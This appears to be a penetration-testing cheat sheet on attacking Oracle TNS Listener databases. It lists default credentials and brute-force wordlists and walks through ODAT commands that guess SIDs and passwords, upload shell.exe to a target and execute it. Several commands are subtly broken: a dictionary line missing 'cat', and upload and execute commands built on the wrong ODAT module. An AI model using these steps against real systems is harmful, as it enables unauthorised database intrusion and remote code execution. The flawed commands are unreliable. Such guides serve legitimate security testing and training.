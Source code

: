 # Oracle TNS Listener - 1521,1522,1529

## Oracle Information

Oracle database \(Oracle DB\) is a relational database management system \(RDBMS\) from the Oracle Corporation \(from [here](https://www.techopedia.com/definition/8711/oracle-database)\).

When enumerating Oracle, the first step is to contact the TNS-Listener, which is normally found on the default port \(1521/TCP; secondary listeners can be found on ports 1522–1529\).

```text
1521/tcp open  oracle-tns    Oracle TNS Listener 9.2.0.1.0 (for 32-bit Windows)
1748/tcp open  oracle-tns    Oracle TNS Listener
```

## SQLPlus Authentication

To login using known credentials:

```text
sqlplus <username>/<password>@<ip_address>/<SID>;
```

If the TNS Listener is on a non-default port \(e.g. TCP/1522\) :

```text
sqlplus <username>/<password>@<ip_address>:<port>/<SID>;
```

If an **account has system database privileges \(sysdba\) or system operator \(sysop\)** you may wish to try the following:

```bash
sqlplus <username>/<password>@<ip_address>/<SID> 'as sysdba';
```

## **SID Bruteforce**

In order to use **oracle\_login** with **patator** you need to **install**:

```text
pip3 install cx_Oracle --upgrade
```

### **Default Passwords**

Below are some of the default passwords associated with Oracle:

* **DBSNMP/DBSNMP** — Intelligent Agent uses this to talk to the db server \(its some work to change it\)
* **SYS/CHANGE\_ON\_INSTALL** — Default sysdba account before and including Oracle v9, as of version 10g this has to be different!
* **PCMS\_SYS/PCMS\_SYS** — Default x account
* **WMSYS/WMSYS** — Default x account
* **OUTLN/OUTLN** — Default x account
* **SCOTT/TIGER** — Default x account

### User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

* **oscan:** _/usr/share/oscanner/accounts.default_ \(169 lines\)
* **MSF-1:**  _from_ admin/oracle/oracle\_login  __/usr/share/metasploit-framework/data/wordlists/oracle\_default\_passwords.csv \(598 lines\)
* **MSF-2:** _from scanner/oracle/oracle\_login_  _/usr/share/metasploit-framework/data/wordlists/oracle\_default\_userpass.txt_ \(568 lines\)
* **Nmap:** _/usr/share/nmap/nselib/data/oracle-default-accounts.lst_ \(687 lines\)

## oscanner

**Oscanner**, which will try to get some valid SID, and then it will brute-force for valid credentials and try to extract some information:

```bash
#apt install oscanner
oscanner -s <IP> -P <PORT>
```

## ODAT

{% embed url="https://github.com/quentinhardy/odat" %}

**ODAT** \(Oracle Database Attacking Tool\) is an open-source **penetration testing** tool that tests the security of **Oracle Databases remotely**.

Usage examples of ODAT:

* You have an Oracle database listening remotely and want to find valid **SIDs** and **credentials** in order to connect to the database
* You have a valid Oracle account on a database and want to **escalate your privileges** to become DBA or SYSDBA
* You have an Oracle account and you want to **execute system commands** \(e.g. **reverse shell**\) in order to move forward on the operating system hosting the database

Tested on Oracle Database **10g**, **11g**, **12c**, **18c,** and **19c**.

Your Oracle version:

```text
ls /usr/local/lib/oracle
```

Wiki of ODAT:

{% embed url="https://github.com/quentinhardy/odat/wiki" %}

### Install ODAT

We can install ODAT with the following commands:

```text
git clone https://github.com/quentinhardy/odat
cd odat
git submodule init
git submodule update
sudo apt-get install libaio1 python3-dev alien python3-pip
pip3 install cx_Oracle
```

As the victim machine is 64 bits, we downloaded the client basic SDK and SQLPlus from the Oracle website

```text
mkdir isolation
cd isolation
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-basic-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-sqlplus-21.1.0.0.0-1.x86_64.rpm
wget https://download.oracle.com/otn_software/linux/instantclient/211000/oracle-instantclient-devel-21.1.0.0.0-1.x86_64.rpm
```

Now we convert the `.rpm` files into `.deb` files and install them:

```text
alien --to-deb *.rpm
dpkg -i *.deb
```

We add the environment variables to the `.zshrc`:

```text
ls /usr/lib/oracle

#Output
21

vi ~/.zshrc

export ORACLE_HOME=/usr/lib/oracle/21/client64/
export LD_LIBRARY_PATH=$LD_LIBRARY_PATH:$ORACLE_HOME/lib
export PATH=${ORACLE_HOME}bin:$PATH
```

Let's check that everything has been installed well:

```text
sqlplus64
python3 odat.py --help
```

### Find Valid Credentials

You can do SID guessing attack with the following command:

```
python3 odat.py sidguesser -s <IP>
```

Dictionary

```text
/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv | tr ' ' '/' | tail -n 50 > passwords.txt
```

After finding a valid SID:

```text
python3 odat.py passwordguesser -s <IP> -d <SID> --accounts-file passwords.txt
```

### Upload Files

```text
# No sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe
# Use sysdba
python3 odat.py passwordguesser -s <IP> -d <SID> -U "username" -P "password" --putFile /Temp shell.exe shell.exe --sysdba
```

### Execute Commands

```text
# No sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe
# Use sysdba
python3 odat.py externaltable -s <IP> -d <SID> -U "username" -P "password" --exec /Temp/shell.exe --sysdba
# Alternatively
./odat.py externaltable -s <IP> -U <username> -P <password> -d <SID> --exec "C:/windows/system32" "calc.exe"

```



